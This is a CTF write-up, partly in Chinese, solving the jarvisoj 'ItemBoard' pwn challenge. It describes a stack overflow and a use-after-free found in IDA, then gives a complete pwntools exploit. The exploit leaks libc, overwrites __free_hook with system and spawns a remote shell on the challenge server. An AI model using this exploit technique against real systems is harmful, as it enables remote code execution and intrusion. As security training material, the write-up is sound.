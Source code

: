 ```yaml
---
layout:     post
title:      jarvisoj ItemBoard
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Address:
nc pwn2.jarvisoj.com 9887
```
<!-- more -->


### 0x01 IDA分析

拿到题目, 先运行一遍, 发现是一个物品清单类的小程序

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x00.png)

拖到IDA分析, 定位到 new_item 方法, 此处存在 stack overflow 漏洞

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x01.png)

再看看栈布局, item 处是一个 buf_ptr, 溢出到这里后可以控制该指针实现任意写

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x02.png)

检查 remove_item 方法是否对指针置0

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x03.png)

跟进 set_null 方法, 发现这个函数不起任何作用

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x04.png)

这里其实是IDA优化过, 我们再看看汇编, 确实不能置0指针

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x05.png)

而且 show_item 方法没有检查 inuse位, 结合 remove_item 处漏洞可以 leak libc_base

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x06.png)


###  0x02 exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote("pwn2.jarvisoj.com", 9887)
#Io = process('./itemboard')
bin = ELF('./itemboard')
libc = ELF('./libc-2.19.so')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def new_item(name, length, content):
    Io.recvuntil('choose:')
    Io.sendline('1')
    Io.recvuntil('Item name?')
    Io.sendline(name)
    Io.recvuntil('len?')
    Io.sendline(str(length))
    Io.recvuntil('Description?')
    Io.sendline(content)
def show_item(num):
    Io.recvuntil('choose:')
    Io.sendline('3')
    Io.recvuntil('Which item?')
    Io.sendline(str(num))
    Io.recvuntil('Description:')
def remove_item(num):
    Io.recvuntil('choose:')
    Io.sendline('4')
    Io.recvuntil('Which item?')
    Io.sendline(str(num))

#------------------leak libc_base----------------
new_item('0',0x80,'A')
new_item('1',0x80,'B')
remove_item(0)

show_item(0)
leak_data = u64(Io.recv(6).ljust(8,'\x00'))
libc_base = leak_data - 0x3BE7B8
free_hook_ptr = libc_base + 0x3BDEE8
#libc_base = data-0x3c4b78
#free_hook_ptr = libc_base + 0x3C3EF8
system = libc_base + libc.symbols['system']
success("libc_base: " + hex(libc_base))
success("free_hook_ptr: " + hex(free_hook_ptr))
success("system: " + hex(system))

#------------------hijack & write------------------
payload = p64(system)
payload += 'a'*(1024 + 8-len(payload))
payload += p64(free_hook_ptr-8) # 将 system_addr 写进 free_hook_str

new_item('/bin/sh\x00',len(payload),payload)
remove_item(2) # 相当于调用 system('/bin/sh')

Io.interactive()
```

getshell

![](/assets/img/ctf/pwn/2017-08-05-jarvisoj-itemboard/0x07.png)
